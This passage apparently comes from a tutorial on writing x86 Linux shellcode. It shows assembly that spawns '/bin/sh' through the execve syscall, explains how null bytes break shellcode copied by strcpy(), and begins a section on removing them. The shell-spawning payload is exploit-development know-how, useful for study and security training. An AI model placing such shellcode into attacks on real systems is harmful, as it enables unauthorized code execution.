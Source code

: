 To spawn a "sh" shell using execve()

```
mov eax,0x0 		//initialization
push edx 			//nullbyte to terminate string (0x0)
push 0x68732f2f 	//4bytes needed (//sh)['//' is same as '/'] little endian
push 0x6e69622f 	//4bytes needed (/bin) little endian
mov ebx, esp 		//moving SP into EBX
push edx 			//pushing EDX into stack (0x0)
push esp 			// ESP above EDX in stack
mov ecx, esp 		// ESP stored in ECX for argv
mov eax, 0x0b 		//loading eax with syscall value for execve()
int 0x80 			//calling syscall to perform interrupt
```


### MORE ON SYSCALL

Type this command in terminal

```
man syscall
man 'syscall(2)'
```

Also refer this [table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) for more syscall values of each architecture

-----

## NULLBYTES 0x00

### EFFECT OF NULL BYTES

Functions relying on a string operator such as strcpy(), to copy data into a buffer, and when these functions hit a null byte such as 0x00, they translate that as a string terminator. This, of course, causes our shellcode to fail

### CAUSE OF NULL BYTES

Assembly instructions cause null bytes to reside within your shellcode

Improper initialization of registers

### REMOVING NULL BYTES

#### TYPE 1

Consider you are using a register EAX (32bits/4bytes)

Whenever you are trying to store a small value in EAX(32bit)

```
mov eax,0x10
```
